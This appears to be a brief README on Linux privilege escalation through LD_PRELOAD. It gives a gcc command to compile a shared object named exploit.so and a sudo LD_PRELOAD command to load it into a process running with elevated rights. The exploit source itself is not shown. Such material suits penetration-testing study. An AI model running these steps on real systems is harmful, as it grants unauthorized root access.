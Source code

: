 # LD_PRELOAD

You can inject a shared object file to be loaded alongside a process you can run within an elevated context.

## Compile
```
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```
If you face compile errors while building this, you may have to additionally include <unistd.h>.

## Utilise
```
sudo LD_PRELOAD=PATH/TO/exploit.so <COMMAND>
```